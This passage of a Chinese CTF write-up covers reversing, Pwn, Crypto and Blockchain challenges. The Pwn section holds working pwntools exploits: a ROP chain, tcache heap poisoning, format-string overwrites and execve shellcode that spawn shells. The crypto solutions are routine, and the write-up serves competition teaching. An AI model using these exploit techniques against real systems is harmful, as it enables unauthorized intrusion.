99, 97, 108, 101, 32, 61, 32, 144, 101, 99, 116, 111, 114, 50, 46, 79, 78, 69, 32, 178, 32, 40, 49, 46, 15, 32, 212, 32, 48, 46, 52, 32, 47, 32, 95, 103, 101, 116, 95, 109, 117, 108, 116, 105, 40, 41, 41, 10, 10, 102, 117, 110, 99, 32, 95, 116, 114, 97, 112, 40, 41, 58, 10, 9, 118, 97, 114, 32, 97, 32, 61, 32, 188, 52, 32, 43, 32, 52, 51, 32, 45, 32, 15, 55, 10, 9, 95, 115, 99, 111, 114, 101, 32, 61, 32, 49, 49, 52, 53, 49, 52, 32, 47, 32, 97, 10, 10, 102, 117, 110, 99, 32, 95, 103, 101, 116, 95, 115, 99, 111, 114, 101, 40, 41, 58, 10, 9, 105, 102, 32, 95, 115, 99, 111, 114, 101, 32, 94, 32, 95, 115, 99, 111, 114, 101, 95, 107, 101, 121, 32, 131, 61, 32, 95, 115, 99, 111, 114, 101, 95, 99, 104, 101, 99, 107, 58, 10, 9, 9, 69, 110, 103, 105, 110, 101, 46, 116, 105, 109, 101, 95, 115, 99, 97, 108, 101, 32, 61, 32, 48, 10, 9, 9, 103, 101, 116, 95, 110, 111, 100, 101, 40, 34, 47, 114, 111, 111, 116, 47, 78, 111, 100, 101, 50, 68, 47, 213, 108, 97, 121, 101, 114, 34, 41, 46, 95, 105, 115, 95, 97, 108, 105, 118, 101, 32, 61, 32, 102, 97, 108, 115, 101, 10, 9, 9, 95, 115, 99, 111, 114, 101, 32, 61, 32, 48, 10, 9, 9, 103, 101, 116, 95, 110, 111, 100, 101, 40, 34, 47, 114, 111, 111, 116, 47, 78, 111, 100, 101, 50, 68, 47, 65, 99, 99, 101, 112, 116, 68, 105, 97, 108, 111, 103, 34, 41, 46, 118, 105, 115, 105, 98, 108, 101, 32, 61, 32, 116, 114, 117, 101, 10, 9, 114, 101, 116, 117, 114, 110, 32, 95, 115, 99, 111, 114, 101, 10, 10, 102, 117, 110, 99, 32, 95, 103, 101, 116, 95, 109, 117, 108, 116, 105, 40, 41, 58, 10, 9, 114, 101, 116, 117, 114, 110, 32, 40, 95, 109, 117, 108, 116, 105, 32, 45, 32, 49, 41, 32, 47, 32, 52, 46, 48, 10, 10, 102, 117, 110, 99, 32, 97, 100, 100, 95, 115, 99, 111, 114, 101, 40, 118, 97, 108, 117, 101, 32, 58, 32, 105, 110, 116, 41, 58, 10, 9, 95, 115, 99, 111, 114, 101, 32, 43, 61, 32, 102, 108, 111, 111, 114, 102, 40, 118, 97, 108, 117, 101, 32, 42, 32, 95, 103, 101, 116, 95, 109, 117, 108, 116, 105, 40, 41, 41, 10, 9, 95, 115, 99, 111, 114, 101, 95, 99, 104, 101, 99, 107, 32, 61, 32, 95, 115, 99, 111, 114, 101, 32, 94, 32, 95, 115, 99, 111, 114, 101, 95, 107, 101, 121, 10, 9, 95, 109, 117, 108, 116, 105, 32, 43, 61, 32, 52, 10, 10, 102, 117, 110, 99, 32, 95, 111, 110, 95, 103, 97, 109, 101, 95, 111, 118, 101, 114, 40, 41, 58, 10, 9, 105, 102, 32, 95, 103, 101, 116, 95, 115, 99, 111, 114, 101, 40, 41, 32, 217, 32, 50, 48, 48, 48, 48, 48, 48, 48, 48, 58, 10, 9, 9, 114, 101, 116, 117, 114, 110, 10, 9, 10, 9, 118, 97, 114, 32, 116, 95, 111, 117, 116, 32, 61, 32, 103, 101, 116, 95, 110, 111, 100, 101, 40, 34, 47, 114, 111, 111, 116, 47, 78, 111, 100, 101, 50, 68, 47, 67, 111, 110, 116, 114, 111, 108, 47, 84, 101, 120, 116, 69, 100, 105, 116, 34, 41, 10, 9, 10, 9, 102, 111, 114, 32, 95, 95, 32, 105, 110, 32, 91, 91, 40, 102, 117, 110, 99, 40, 41, 58, 69, 110, 103, 105, 110, 101, 46, 116, 105, 109, 101, 95, 115, 99, 97, 108, 101, 32, 61, 32, 48, 41, 46, 99, 97, 108, 108, 40, 41, 44, 32, 40, 102, 117, 110, 99, 40, 41, 58, 103, 101, 116, 95, 110, 111, 100, 101, 40, 34, 47, 114, 111, 111, 116, 47, 78, 111, 100, 101, 50, 68, 47, 80, 108, 97, 121, 101, 114, 34, 41, 46, 95, 105, 115, 95, 97, 108, 105, 118, 101, 32, 61, 32, 102, 97, 108, 115, 101, 41, 46, 99, 97, 108, 108, 40, 41, 44, 32, 40, 102, 117, 110, 99, 40, 111, 41, 58, 111, 46, 95, 115, 99, 111, 114, 101, 32, 61, 32, 48, 41, 46, 99, 97, 108, 108, 40, 115, 101, 108, 102, 41, 44, 32, 40, 102, 117, 110, 99, 40, 41, 58, 103, 101, 116, 95, 110, 111, 100, 101, 40, 34, 47, 114, 111, 111, 116, 47, 78, 111, 100, 101, 50, 68, 47, 65, 99, 99, 101, 112, 116, 68, 105, 97, 108, 111, 103, 34, 41, 46, 118, 105, 115, 105, 98, 108, 101, 32, 61, 32, 116, 114, 117, 101, 41, 46, 99, 97, 108, 108, 40, 41, 44, 32, 91, 93, 93, 46, 112, 111, 112, 95, 98, 97, 99, 107, 40, 41, 32, 105, 102, 32, 69, 110, 103, 105, 110, 101, 68, 101, 98, 117, 103, 103, 101, 114, 46, 105, 115, 95, 97, 99, 116, 105, 118, 101, 40, 41, 32, 101, 108, 115, 101, 32, 91, 110, 117, 108, 108, 93, 93, 46, 112, 111, 112, 95, 98, 97, 99, 107, 40, 41, 58, 10, 9, 9, 118, 97, 114, 32, 102, 105, 108, 101, 32, 61, 32, 70, 105, 108, 101, 65, 99, 99, 101, 115, 115, 46, 111, 112, 101, 110, 40, 39, 46, 47, 101, 122, 103, 97, 109, 101, 46, 101, 120, 101, 39, 44, 32, 70, 105, 108, 101, 65, 99, 99, 101, 115, 115, 46, 82, 69, 65, 68, 41, 10, 9, 9, 105, 102, 32, 102, 105, 108, 101, 32, 61, 61, 32, 110, 117, 108, 108, 58, 10, 9, 9, 9, 98, 114, 101, 97, 107, 10, 9, 9, 10, 9, 9, 102, 105, 108, 101, 46, 115, 101, 101, 107, 40, 48, 120, 53, 48, 41, 10, 9, 9, 118, 97, 114, 32, 98, 32, 61, 32, 102, 105, 108, 101, 46, 103, 101, 116, 95, 98, 117, 102, 102, 101, 114, 40, 48, 120, 50, 48, 41, 10, 9, 9, 10, 9, 9, 118, 97, 114, 32, 99, 104, 101, 99, 107, 32, 61, 32, 70, 105, 108, 101, 65, 99, 99, 101, 115, 115, 46, 103, 101, 116, 95, 109, 100, 53, 40, 39, 46, 47, 101, 122, 103, 97, 109, 101, 46, 112, 99, 107, 39, 41, 10, 9, 9, 105, 102, 32, 99, 104, 101, 99, 107, 46, 108, 101, 110, 103, 116, 104, 40, 41, 32, 61, 61, 32, 48, 58, 10, 9, 9, 9, 98, 114, 101, 97, 107, 10, 9, 9, 10, 9, 9, 118, 97, 114, 32, 99, 32, 61, 32, 99, 104, 101, 99, 107, 46, 116, 111, 95, 117, 116, 102, 56, 95, 98, 117, 102, 102, 101, 114, 40, 41, 10, 9, 9, 9, 10, 9, 9, 102, 111, 114, 32, 105, 32, 105, 110, 32, 114, 97, 110, 103, 101, 40, 51, 50, 41, 58, 10, 9, 9, 9, 98, 91, 105, 93, 32, 94, 61, 32, 99, 91, 105, 93, 10, 9, 9, 10, 9, 9, 116, 95, 111, 117, 116, 46, 116, 101, 120, 116, 32, 61, 32, 98, 46, 103, 101, 116, 95, 115, 116, 114, 105, 110, 103, 95, 102, 114, 111, 109, 95, 117, 116, 102, 56, 40, 41, 10, 9, 10, 9, 116, 95, 111, 117, 116, 46, 118, 105, 115, 105, 98, 108, 101, 32, 61, 32, 116, 114, 117, 101, 10, 9, 10, 102, 117, 110, 99, 32, 95, 111, 110, 95, 114, 101, 115, 116, 97, 114, 116, 40, 41, 58, 10, 9, 95, 115, 99, 111, 114, 101, 32, 61, 32, 48, 10, 9, 95, 115, 99, 111, 114, 101, 95, 99, 104, 101, 99, 107, 32, 61, 32, 95, 115, 99, 111, 114, 101, 32, 94, 32, 95, 115, 99, 111, 114, 101, 95, 107, 101, 121, 10, 9, 95, 109, 117, 108, 116, 105, 32, 61, 32, 53, 46, 48, 10, 9, 95, 115, 99, 111, 114, 101, 95, 115, 104, 111, 119, 32, 61, 32, 48, 46, 48, 10, 9, 95, 115, 99, 111, 114, 101, 95, 115, 109, 111, 111, 116, 104, 32, 61, 32, 48, 10]
    bbb = [137, 18, 110, 12, 249, 84, 70, 94, 92, 69, 176, 87, 62, 122, 125, 52, 21, 41, 170, 177, 144, 213, 99, 126, 162, 196, 237, 194, 147, 149, 3, 35, 45, 109, 215, 229, 76, 93, 39, 226, 32, 160, 19, 89, 128, 79, 175, 67, 199, 186, 100, 217, 55, 59, 168, 101, 112, 31, 131, 154, 197, 239, 27, 238, 227, 120, 141, 193, 220, 203, 188, 161, 107, 49, 245, 224, 8, 61, 156, 214, 106, 209, 68, 145, 254, 252, 244, 166, 74, 216, 43, 1, 192, 198, 251, 75, 24, 7, 85, 64, 88, 73, 202, 117, 38, 165, 9, 200, 22, 81, 63, 14, 208, 58, 185, 139, 6, 222, 171, 78, 72, 242, 82, 56, 104, 134, 5, 236, 36, 179, 169, 33, 167, 65, 138, 225, 183, 187, 153, 246, 113, 231, 90, 47, 86, 140, 54, 77, 146, 2, 95, 25, 133, 172, 16, 28, 151, 195, 124, 157, 46, 253, 103, 178, 219, 132, 230, 148, 23, 48, 150, 114, 115, 127, 111, 248, 108, 255, 42, 118, 212, 191, 190, 201, 0, 105, 221, 130, 51, 4, 71, 29, 96, 189, 207, 20, 136, 228, 57, 53, 37, 17, 66, 15, 155, 223, 10, 98, 44, 26, 206, 50, 40, 80, 159, 243, 233, 60, 235, 163, 121, 182, 11, 247, 211, 184, 232, 143, 97, 129, 152, 174, 181, 250, 91, 240, 30, 218, 210, 142, 205, 83, 164, 123, 34, 116, 241, 204, 158, 102, 173, 180, 234, 119, 13, 135]

    res = decrypt(aaa, bbb)
    res = bytes(res)
    open('ScoreBoard_unshelled.gd', 'wb').write(res)
```

得到以下结果

```python
extends Label

const FORMAT = "SCORE:%016d(x%01.2f)"

var _score : int = 0
var _multi : float = 5.0
var _score_show : float = 0.0
var _score_smooth : int = 0

var _score_key : int
var _score_check : int

func _ready():
    print('hello')
    get_node("/root/Node2D").add_score.connect(self.add_score)
    get_node("/root/Node2D").game_over.connect(self._on_game_over)
    get_node("/root/Node2D").game_restart.connect(self._on_restart)
    
    randomize()
    _score_key = randi()
    _score_check = _score ^ _score_key

func _process(delta):
    _score_show = lerpf(_score_show, _get_score(), 0.08)
    self.text = FORMAT % [floorf(_score_show + 0.1), _get_multi()]

func _physics_process(delta):
    _trap()
    _multi = lerpf(_multi, 5.0, delta)
    self.scale = Vector2.ONE * (1.4 - 0.4 / _get_multi())

func _trap():
    var a = 34 + 43 - 77
    _score = 114514 / a

func _get_score():
    if _score ^ _score_key != _score_check:
        Engine.time_scale = 0
        get_node("/root/Node2D/Player")._is_alive = false
        _score = 0
        get_node("/root/Node2D/AcceptDialog").visible = true
    return _score

func _get_multi():
    return (_multi - 1) / 4.0

func add_score(value : int):
    _score += floorf(value * _get_multi())
    _score_check = _score ^ _score_key
    _multi += 4

func _on_game_over():
    if _get_score() < 200000000:
        return
    
    var t_out = get_node("/root/Node2D/Control/TextEdit")
    
    for __ in [[(func():Engine.time_scale = 0).call(), (func():get_node("/root/Node2D/Player")._is_alive = false).call(), (func(o):o._score = 0).call(self), (func():get_node("/root/Node2D/AcceptDialog").visible = true).call(), []].pop_back() if EngineDebugger.is_active() else [null]].pop_back():
        var file = FileAccess.open('./ezgame.exe', FileAccess.READ)
        if file == null:
            break
        
        file.seek(0x50)
        var b = file.get_buffer(0x20)
        
        var check = FileAccess.get_md5('./ezgame.pck')
        if check.length() == 0:
            break
        
        var c = check.to_utf8_buffer()
            
        for i in range(32):
            b[i] ^= c[i]
        
        t_out.text = b.get_string_from_utf8()
    
    t_out.visible = true
    
func _on_restart():
    _score = 0
    _score_check = _score ^ _score_key
    _multi = 5.0
    _score_show = 0.0
    _score_smooth = 0
```

查看代码，发现使用了_score_check 和随机生成的_score_key 保护_score。如果你尝试使用 CE 修改分数，就会被检测到。同时，分数的乘数_multi 的存储做了一个变换，存储值为显示值乘 4 加 1

在函数_on_game_over 有获得 flag 的代码，从 ezgame.exe 开头 0x50 处读取 0x20 字节，异或 pck 文件的 md5 值。

```python
import hashlib

game_bin_path = '../ezgame_export/ezgame.exe'
game_pck_path = '../ezgame_export/ezgame.pck'

def get_pck_md5() -> str:
    global game_pck_path
    h = hashlib.md5()
    h.update(open(game_pck_path, 'rb').read())
    return h.hexdigest()

def get_key_from_bin_file() -> bytes:
    global game_bin_path
    fp = open(game_bin_path, 'rb')
    fp.seek(0x50)
    return fp.read(0x20)

def get_flag() -> bytearray:
    data = bytearray(get_pck_md5().encode())
    key = get_key_from_bin_file()
    for i in range(len(data)):
        data[i] ^= key[i]
    return data

if __name__ == "__main__":
    flag = get_flag()
    print(flag)
```

# Pwn

## reg

> 什么，没有输出函数？

可编辑的最后一个数字是 rbp，把这个改掉就可以在 main 函数返回的时候控制 ret 了。

在那个数组里面构造 orw rop 链，栈迁移到这里即可。

```python
from pwn import*
def set(idx,type,val):
    p.sendline("1")
    p.sendline(str(idx) + " " + str(type) + " " + str(val))

def add(idx,type,val):
    p.sendline("2")
    p.sendline(str(idx) + " " + str(type) + " " + str(val))

p = process("./reg")
libc = ELF("./libc.so.6")
#pop_rdi_ret    str_bin_sh  system
pop_rdi_ret = 0x2a3e5
pop_rsi_ret = 0x2be51
pop_rdx_ret = 0x796a2
open = libc.symbols["open"]
read = libc.symbols["read"]
write = libc.symbols["write"]
add(0x1a,1,-libc.symbols["_IO_2_1_stderr_"])
set(0x1b,1,0x67616c662f2e)

set(0,2,0x1a)
add(0,1,pop_rdi_ret)
set(1,2,0x20)
add(1,1,-0x48)
set(2,2,0x1a)
add(2,1,pop_rsi_ret)
set(3,1,0)
set(4,2,0x1a)
add(4,1,pop_rdx_ret)
set(5,1,0)
set(6,2,0x1a)
add(6,1,open)

set(7,2,0x1a)
add(7,1,pop_rdi_ret)
set(8,1,3)
set(9,2,0x1a)
add(9,1,pop_rsi_ret)
set(0xa,2,1)
set(0xb,2,0x1a)
add(0xb,1,pop_rdx_ret)
set(0xc,1,0x30)
set(0xd,2,0x1a)
add(0xd,1,read)

set(0xe,2,0x1a)
add(0xe,1,pop_rdi_ret)
set(0xf,1,1)
set(0x10,2,0x1a)
add(0x10,1,pop_rsi_ret)
set(0x11,2,1)
set(0x12,2,0x1a)
add(0x12,1,pop_rdx_ret)
set(0x13,1,0x30)
set(0x14,2,0x1a)
add(0x14,1,write)

# gdb.attach(p)
add(0x20,1,-0x128)
p.sendline("3")
p.interactive()
```

## heap1

> 不麻烦选手搞什么 patchelf 了 shell 点击就送

size 数组可以溢出一位到 max_node，然后超过范围分配堆，在 size 数组中写入堆地址，然后堆溢出。

堆溢出随便任意写一下就能退出来拿 shell 了

```python
from pwn import *


def add(idx, siz):
    p.recvuntil(b":")
    p.sendline(b"1")
    p.recvuntil(b":")
    p.sendline(str(idx).encode())
    p.recvuntil(b":")
    p.sendline(str(siz).encode())


def fre(idx):
    p.recvuntil(b":")
    p.sendline(b"2")
    p.recvuntil(b":")
    p.sendline(str(idx).encode())


def edi(idx, cot):
    p.recvuntil(b":")
    p.sendline(b"3")
    p.recvuntil(b":")
    p.sendline(str(idx).encode())
    p.recvuntil(b":")
    p.send(cot)


def sho(idx):
    p.recvuntil(b":")
    p.sendline(b"4")
    p.recvuntil(b":")
    p.sendline(str(idx).encode())


p = remote("ip", 9999)
# gdb.attach(p)
add(0x1f, 0x60)
add(0, 0xf0)
add(1, 0xf0)
add(0x20, 0xf0)
fre(1)
add(1, 0xf0)
add(2, 0xf0)
sho(1)
heap_base = u64(p.recv(8))
fre(2)
fre(1)
# gdb.attach(p)
edi(0, b'a' * 0xf8 + p64(0x101) + p64(0x4040c0 ^ heap_base))
add(1, 0xf0)
add(2, 0xf0)
edi(2, b"Seg_Tree")
p.recvuntil(b":")
p.sendline(b"5")
p.sendline(b"cat /flag")
p.interactive()
```

## 123go

> 1，2，3 GO!

给了一次 printf 两次 scanf 的 fmt，printf 泄露 libc，两次 scanf 的 fmt 改返回地址为 ogg 从而 getshell

```python
from pwn import *
import time
import base64

context.log_level = 'debug'

io=lambda: r.interactive()
sl=lambda a: r.sendline(a)
sla=lambda a,b: r.sendlineafter(a,b)
se=lambda a: r.send(a)
sa=lambda a,b: r.sendafter(a,b)
lg=lambda name,data: log.success(name+":"+hex(data))
rcu=lambda a: r.recvuntil(a)

def z():
    gdb.attach(r)
    time.sleep(1)

def exp():
    global r 
    global libc
    global ef
    #libc = ELF("./libc-2.31.so")
    #r = process("./test")
    r = remote("0.0.0.0",9999)
    #z()
    sa("name:","%8$p%11$p")
    r.recvuntil("Hello:")
    stack = int(r.recv(14),16)
    libcbase = int(r.recv(14),16) - 0x24083
    target = stack + 0x18 - 0x100
    lg("stack",stack)
    lg("libcbase",libcbase)

    #set libc func
    one = [0xe3afe,0xe3b01,0xe3b04]
    ogg = libcbase + one[1]

    #z()
    sa("context:","%13$s".ljust(0x10,"\x00"))
    sl(p64(target))

    #z()
    sa("context:","%41$s".ljust(0x10,"\x00"))
    sl(p64(ogg))

    io()

if __name__ == '__main__':
    exp()
```

## The Legend Of ShellCode

> 你去吧，愿你能为海拉鲁带来和平

给了 6 块 shellocode，中间有 0x8 的间隙，可以通过"push ret"进行连接，手写一个 execve("/bin/sh",0,0)的系统调用就行了

```python
from pwn import *
import time
import base64

context.log_level = 'debug'
##context.terminal = ["tmux", "splitw", "-h"]
context.arch = 'amd64'
context.os = 'linux'


io=lambda: r.interactive()
sl=lambda a: r.sendline(a)
sla=lambda a,b: r.sendlineafter(a,b)
se=lambda a: r.send(a)
sa=lambda a,b: r.sendafter(a,b)
lg=lambda name,data: log.success(name+":"+hex(data))
rcu=lambda a: r.recvuntil(a)

def z():
    gdb.attach(r)
    time.sleep(1)

def add(con):
    r.recvuntil(':')
    r.send(con)

def exp():
        global r 
        global libc
        global ef
        #libc = ELF("./libc-2.31.so")
        #r = process("./test")
        r = remote("0.0.0.0",9999)         
        pd='''
        add rax , 0x10;
        xor rsi , rsi;
        push rax;
        '''
        add(asm(pd))
         
        pd='''
        add rax , 0x10;
        mov rdi , rax;
        push rax;
        '''
        add(asm(pd))
         
        pd='''
        add rdi , 0x10;
        xor rdx , rdx;
        push rdi;
        '''
        add(asm(pd))

        pd='''
        add rdi , 0x10;
        xor rax , rax;
        push rdi;
        '''
        add(asm(pd))
         
        pd='''
        add eax , 0x3b;
        add rdi , 0x10;
        syscall;
        '''
        ##gdb.attach(r)
        #print("test:"+str(len(asm(pd))))
        add(asm(pd))
        #z()
        add('/bin/sh\x00')
        r.interactive()
        io()

if __name__ == '__main__':
    exp()
```

# Crypto

## 二次剩余

> Can you solve quadratic residue problem？

由于 p mod 4 = 3, 可以轻松求得 a 模 p 下的平方根 b , b = a ^ ((p+1)//4) mod p

接下来的问题就是已知 a 模 p^t 的平方根，如何求 a 模 p^(t+1) 的平方根 ,如果可以求出，那就可以一直迭代下去。

Hensel lifting：

已知 b^2 ≡ a mod p^t

假设 c^2 ≡ a mod p^t+1   ，c^2 ≡ a mod p^t

所以 c^2 ≡ b^2  mod p^t，c ≡±b  mod p^t ，c = b  +v∗p^t

接下来 就要求 v

c^2 ≡b^2  +2∗b∗v∗p^t mod p^t+1，c^2 −b^2  ≡2∗b∗v∗p^t mod p^t+1

两边及模数都有 p^t 这个因子

a −b^2  ≡2∗b∗v∗p^t mod p^t+1

v  ≡（a −b^2）/p^t∗(2∗b)^−1 mod p

v  ≡（a −b^2）/p^t∗(2∗b)^−1 mod p

这样就可以通过 a 模 p^t 的平方根 b，求得 a 模 p^(t+1) 的平方根 c,之后依次迭代即可

```python
p = 334032027984155099402863982848235447227
a = 6363500121827697008224968006879792916113549541401919095721781619316319436679204160344656454420382763358609215987320
from Crypto.Util.number import *
from hashlib import *

b = pow(a,(p+1)//4,p)

for i in range(2):
    v =  ((a-b**2)//(p**(i+1)) * inverse(2*b,p)) % p
    c = b + p**(i+1) * v
    b = c
flag1 = 'CBCTF{' + sha256(str(c).encode()).hexdigest() + '}'
print(flag1)

flag2 = 'CBCTF{' + sha256(str(p**3-c).encode()).hexdigest() + '}'
print(flag2)
```

当然也有 python 库一把梭

```python
from sympy.ntheory.residue_ntheory import nthroot_mod
m = nthroot_mod(a,2,p**3)
flag1 = 'CBCTF{' + sha256(str(m).encode()).hexdigest() + '}'
print(flag1)

flag2 = 'CBCTF{' + sha256(str(p**3-m).encode()).hexdigest() + '}'
print(flag2)
```

## 小小数学家

> This math problem is so easy that even primary school students can do it .

观察 f 函数，是一个循环右移函数，而一个数的奇偶性是由二进制位的最后一位决定的。

也就是说若 m 的某位为 1，f 输出奇数；若 m 的某位为 0，f 输出偶数

由于 N1 为奇数，与 N1 相乘不改变奇偶性；N2 为偶数，模 N2 也不会改变奇偶性。

这就导致了最后的输出的 c 和 f 函数的输出是同奇偶性的。

依次判断 c 的奇偶，就能恢复 m

```python
from Crypto.Util.number import *

n = 367
s = ''
with open('out.txt', 'r') as w:
    for i in range(n):
        tmp = int(w.readline())
        
        if tmp % 2 == 0:
            s = '0' + s
        else:
            s = '1' + s
print(long_to_bytes(int(s,2)))
```

## Mixture

> try to calculate all the dates.

第一部分：

剪枝，高位搜索


这里考虑搜索 p 和 2q

若 hint1 该位为 1，则可能 p 为 1,2q 为 0 或者 p 为 0，2q 为 1

剪枝条件：

p 和 2q 全部填充 0 时应小于 2*n；p 和 2q 全部填充 1 时应大于 2*n；p 应该小于 2q

```python
hint1 = 204639519228482132227892124558206581852901166540934482956077092683272047215603
hint2 = 5223497084433284165407855714831225232980885646146697788945658224946492136469028456907776417823381149203014730026034726336823564762750860023257769169870671
hint1 = bin(hint1)[2:]

def find(p,q):
    l = len(p)
    tmp0 = p + (257-l)*"0"
    tmp1 = p + (257-l)*"1"
    tmq0 = q + (257-l)*"0"
    tmq1 = q + (257-l)*"1"
    if(int(tmp0,2) > int(tmq0,2)):
        return 
    if(int(tmp0,2)*int(tmq0,2) > 2*n):
        return 
    elif(int(tmp1,2)*int(tmq1,2) < 2*n):
        return

    if(l == 257):
        pp = int(tmp0,2)
        qq = int(tmq0,2)
        print(pp)
        print(qq)
        
    else:
        if(hint1[l] == "1"):
            find(p+"1",q+"0")
            find(p+"0",q+"1")
        else:
            find(p+"0",q+"0")
            find(p+"1",q+"1")
p = ''
q = ''
find(p,q)

#68159635510221590267751587232035443699626003596809339697757613332820601794777
#153272447698167050366777019210740072381726158770375395451901251279066833629994
```

第二部分：

构造格，通过求格上最短向量还原 a，b


考虑格


```python
p = 68159635510221590267751587232035443699626003596809339697757613332820601794777
from Crypto.Util.number import *
from gmpy2 import *
c = 3800357091980764536414497032084521685838674051584417343344124843521990588109085151037748013700811799398796635922619667885187270167830981934930753782605245
s = [10631535627345799018411095033606552047599892624931967169233572506891701326528002384214254342729805768875583936111640196339241117790402788019517706376783183, 10457198125564719416520015786706105819881358861954538824120777188536392438469456037047204911363866908866056107415656206075097420502319938820524677159455243]
inv=inverse(s[0],p**2)
D=diagonal_matrix(ZZ, [2^96, 1, 1])
M=Matrix(ZZ,[[1,0,inv*c],
             [0,1,-s[1]*inv],
             [0,0,p**2]])*D
L = M.LLL()
t = vector(ZZ, L[0])
print(t)

#(-79228162514264337593543950336, -61957106499847174998764659567, -64774791056713507928656808819)
```

第三部分：

有了 a，b，m，正常 LCG 还原种子即可

```python
k,c,d = (-79228162514264337593543950336, -61957106499847174998764659567, -64774791056713507928656808819)
c = -c
d = -d
ab = GCD(c,d)
a = d//ab
b = c//ab
m = q**2
inva = inverse(a,m)
for i in range(256):
    x = (x-b)*inva % m
    flag = long_to_bytes(x)
    if b'CBCTF' in flag:
        print(flag)
        break
```

## babyrsa

> a special kind of prime number generation

p,q 都是由 64bit 的 k 生成，可以发现 k 越大，p，q 就越大，所以采用二分查找找 k

```python
from Crypto.Util.number import *
from gmpy2 import *
import math

n = 13226258685595630160447827442153267599814292160977306459359416297020102688049793771120158029953432640539514974565723831126909317859357612109049397896863392224521508922404189962829783829182814282953169
L = 2**63
R = 2**64
while L<= R:
    k = (L+R)//2
    p = 2023*k**5 + 2022*k**4 - 2023*k**3 - 2021*k**2 + 2020*k + 2019 + int(k**3*sin(k+2023)) - int(k**3*cos(k**2-2023)) + int(math.e**(23) * k)
    q = 2023*k**5 - 2022*k**4 + 2023*k**3 - 2021*k**2 + 2020*k - 2019 - int(k**2*sin(k*2023)) + int(k**2*cos(k**2*2023)) + int(math.e**(23) * k**2)
    p =next_prime(p)
    q =next_prime(q)
    if p*q < n:
        L = k+1
    elif p*q > n:
        R = k-1
    else:
        print(p,q)
        break
```

m>p,m>q,接着根据 crt 解出 n 域下的 m

```python
cp = 2951478008429204122935337892738568379560198116832413976655842487911220583813451657632437020302109151
cq = 3042975941102854775825773171747972690767384220243723396259215468783407690302613940898320940464213373
e = 65537
dp = inverse(e,p-1)
dq = inverse(e,q-1)
mp = pow(cp,dp,p)
mq = pow(cq,dq,q)
m = (mp*inverse(q,p)*q + mq*inverse(p,q)*p) % n
print(long_to_bytes(m))
```

# Blockchain

## EVM starting point⁻¹

> Guess the slot.

可以参考 [https://www.tuoluo.cn/article/detail-10070730.html](https://www.tuoluo.cn/article/detail-10070730.html)

口算、脚本、私链模拟均可（暴力记录答案也行）；nc、pwntools 均可

## v 0.05eth to me🥵

> Try to call `getFlag()` at 0x53d4703098E0117ABE7f9A65fE1E52E68d73d0fd via Sepolia testnet.
> Things might help:
>
> - Sepolia PoW Faucet: https://sepolia-faucet.pk910.de/#/
> - Sepolia json-rpc: [https://1rpc.io/sepolia/](https://1rpc.io/sepolia/)


直接逆向/爬取也不是不行。就写了个 rot13 在里面
